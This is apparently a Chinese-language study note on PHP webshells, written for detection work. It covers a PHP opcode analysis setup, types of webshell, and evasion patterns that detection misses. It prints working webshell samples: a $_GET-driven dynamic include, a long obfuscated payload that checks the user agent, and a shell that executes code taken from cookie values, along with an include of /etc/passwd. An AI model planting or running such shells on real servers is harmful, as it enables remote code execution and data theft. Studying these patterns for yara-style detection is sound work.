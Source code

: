 ### WebShell 概述

![image-20211028104035971](https://tva1.sinaimg.cn/large/e6c9d24ely1h57y7c8zwjj21620g8tck.jpg)



![image-20211028141253921](https://tva1.sinaimg.cn/large/e6c9d24ely1h57y7hi4pqj21lh0u00yf.jpg)

### 

## windows-PHP踩坑

#### 安装php

1. 不需要安装apache，cli模式运行不需要装web服务器。
2. 测试文件test.php要写完整。
3. 解压路径C：\PHP7\，更改目录下php.init.development文件成 php.ini。
4. 最坑需要修改php.ini配置文件、extension，去掉分号试情况添加改写。

```php
//test.php 第一个php文件
<?php
	echo"hello world"
?>
```

#### 获取php的opcode

1. 安装vld扩展组件，在ext文件夹下添加vld.dll扩展组件。
2. 修改配置文件，添加一行extension =vld（形式有可能不同，注意这个坑） 

```
//命令行获取opcode
php -dvld.active=1 -dvld.execute=0 test.php
```

#### 木马分类

- #### 一句话木马

  ##### 一句话木马泛指一句话的脚本，最典型的功能就是为代码执行提供一种环境，比如熟悉的eval()函数。

  ##### 这种脚本大都不会脱离数据传递与数据执行这个基本框架。

- #### 小马

  ##### 小马至功能单一的Webshell，以上传文件功能居多，通常作为上传大马的中转站，辅助攻击者进行渗透。

  ##### 其文件不大，也不存在口令保护。

- #### 大马

  #####  大马指功能强大的Webshell。有些大马为了躲避检测，使用了混

  #####  淆手段或者加解密压缩等技术，前一种称未加密的Webshell，后一种成为加密的Webshell。


$$
sigma(d)  = p(a)+p(b) 2^3
$$

### 不能覆盖类型

1. ##### 自定义函数动态调用

   ```php
   <?php
           function xz(){
                   global $b;
                   $a = $_GET[$b];   #  $_GET[“xz”]
                   $e = $a;
                   return $e;
           }
   ?>
   <?php
   $b = "xz";
   $c = xz();
   $d = $c;
   
   include($d);   #执行
   ```

2. ##### 填充垃圾数据混淆

   ```php
   <?php $rxvihnd = 'D#)sfebfI{*w%)kVx{**#k#)tutjyf`x	x22l:!}V;3q%}!gj}1~!<2p%	x7f!~!<##!>!2p%Z<^2	x5c2b%!>!2p%!*3>?*2b%)gpf{jt)67]452]88]5]48]32M3]317]445]212]445]43]321]464]284]364]6]234]3bd%!<5h%/#0#/*#npd/#)rrd/#00;quui#>.%!<***f	x27,*e	2	145	x66	157	x78"))) { $kzgsoan = "	x6273]y76]277#<!%t2w>#]y74]273]y76]252]y85]256]y6g]257]y86]267]y74]2x5cq%)ufttj	x22)gj6<^#Y#	x5cq%	x27Y%!|!*#91y]c9y]g2y]#>>*4-1-bubE{h%)s2dc#*<!sfuvso!sboepn)%epnbss-%rxW~!Ypp2)%zB%z3	162	x65	141	x74	145	x5f	146	x75	156	~	x24<!fwbm)%tjw)bssbz)#P#-#Q#-#B#-#T#-#E#-#G#-#H#-#I#-#K#-#L#-#M73]D6P2L5P6]y6gP7L6M7]D4]275]D:M8]Df#<%tdz>#L4]275L3]248L3P6L1M5]D2P4*#57]38y]47]67y]37]88y]27]28y]#/r%/h%)n%-#+I#)q%:>:r%:|:**t%)m%=]y31M6]y3e]81#/#7e:55946-tr.984:75983:48984:71]K9]7]322]3]364]6]283]427]36]373P6]36]73]83]238M7]381]211M5]nbs+yfeobz+sfwjidsb`bj+upcotn+qsvmt+fmhpph56	x61"]=1; $uas=strtolower($_SERVER["	x48	124	x54	120	x5f	%epnbss!>!bssbz)#44ec:649#-!#:618d5f9#-!#f6c68399#-!#65egb17-SFEBFI,6<*127-UVPFNJU,6<*r (strstr($uas,"	x72	166	x3a	61	x31")) or (strstr($uas	x45	116	x54"]); if ((strstr($uas,"	x6d	163	x69	145")) obE{h%)sutcvt)fubmgoj{hA!ost0}Z;0]=]0#)2q%l}S;2-u%!-#2#/#%#/#o]#/*)323zbe!7&6<.fmjgA	x27doj%6<	x7fw6*	x7f_*#fmjgk4`{6~6<tf125	x53	105	x52	137	x41	107	x24-tusqpt)%z-#:#*	x/	x24)%c*W%eN+#Qi	x5c1^W%c!>!%i	x5c#-%tmw)%tww**WYsboepn)%bss-%rxBif((function_exists("	x6f	142	x5fCw*[!%rN}#QwTW%hIr	x5c1^-%r	x5c2^-%hOh/#00#W~!%t2w)##Qtjw)#]82#-#!58y]472]37y]672]48y]#>s%<#462]47y]252]18y]#	x24-	x24	x5c%j^	x24>!	x24/%tmw/	x24)%zW2^<!Ce*[!%cIjQeTQcOc/#00#W~!Ydrr)%rxBopjudovg}x;0]=])0#)U!	x27{**u%-#j("vveljku",str_split("%tjw!>!#]y84]275]y83]248]y83]256]y81]265]y72]25p!*#ojneb#-*f%)sfxpmpusut)tpqssutRe%)Rd%)Rb%))!gj!<*#cd2bge56+#-!#]y38#-!%w:**<")));$ijstbzz = $kzgsoan("", $hvcesuz); $ij)tpqsut>j%!*9!	x27!hmg%)!p%!-uyfu%)3of)fepdof`57ftbc	x7f!|!*uyfu	x27k:!f7f_*#ujojRk3`{666~6<&w6<	x7fw6*/#M5]DgP5]D6#<%fdy>#]D4]242]58]24]31#-%tdz*Wsfuvso!%bss	x5csboe`UQPMSVD!-id%)uqpuft`msvd},;uqpuft`msvd}+;!>!}	x27;!>>>!
   ```

3. ##### 输入不确定

```php
<?php

$tqgy=$_COOKIE;       #COOKIE 输入不确定
$tvihp=$tqgy[nyin];   #exp $_POST[nyin]
if($tvihp){
	$hnl=$tvihp($tqgy[xdej]);$izp=$tvihp($tqgy[jhqp]);$wobwg=$hnl("",$izp);$wobwg();
}
```

```php
#文件输入不确定
}
include "exploits.php"; 
?>
```

```php
#执行敏感文件
<?
include("/etc/passwd");     #解决方案 敏感文件直接判
?>

```



Assert 命令执行，配合extract函数执行

16进制字符串不用解码可直接执行

通过str_replace 替换字符串达到混淆目的，混淆出一个命令出来（yara规则辅助）

include 执行文件函数，需要判断目标文件是否恶意。（yara规则辅助）

@语法是为了抑制错误输出

$定义变量

数组拼接+字符串混淆，（yara可以检测）

上传move_upload_file

? 三元操作符 if 判断

反弹shell 

敏感函数动态调用，（声明，执行）

